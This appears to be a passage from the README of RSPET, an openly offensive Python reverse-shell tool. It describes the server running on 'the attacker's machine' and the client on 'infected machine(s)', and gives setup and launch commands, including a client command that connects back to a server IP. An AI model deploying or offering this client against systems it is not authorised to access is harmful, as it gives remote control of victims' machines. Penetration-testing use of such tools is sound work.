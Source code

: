 *[4]Detailed documentation on creating Plug-ins available in [Online Documentation](http://rspet.readthedocs.io/en/latest/dev/)!

## Deployment:

* `rspet_server.py` is situated at the attacker's machine and running to accept connections
* `rspet_client.py` is situated in the infected machine(s) and will initiate the connection and wait for input.

## Installation

Executing `./setup.py` while on the project's root folder will generate the required certificates and install all needed components through pip.    

Of course you can manually install the pip packages required by executing `pip2 install Flask flask-cors`.
Also you can generate your own key-cert set (just name them `server.key` & `server.crt` and place them inside the Server folder).

## Execution:

* Server:
```sh
python rspet_server.py [-c #clients, --ip ipToBind, -p portToBind]
```
max_connections defaults to 5 if left blank

* RESTful API:
    ```sh
    python rspet_server_api.py [-c #clients, --ip ipToBind, -p portToBind]
    ```

* Client:
```sh
python rspet_client.py <server_ip> [server_port]
```

Many changes can be made to fit individual needs.

As always if you have any suggestion, bug report or complain feel free to contact me.

## ASCIICAST

[![asciicast](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno.png)](https://asciinema.org/a/b94jozlbub4a3gir7oq6owlno?autoplay=1)

## Distros
> A list of Distros that contain RSPET

* [BlackArch Linux](http://blackarch.org/tools.html) (as of version 2016.04.28)
* [ArchStrike](https://archstrike.org/packages/search/rspet)

## As Featured in
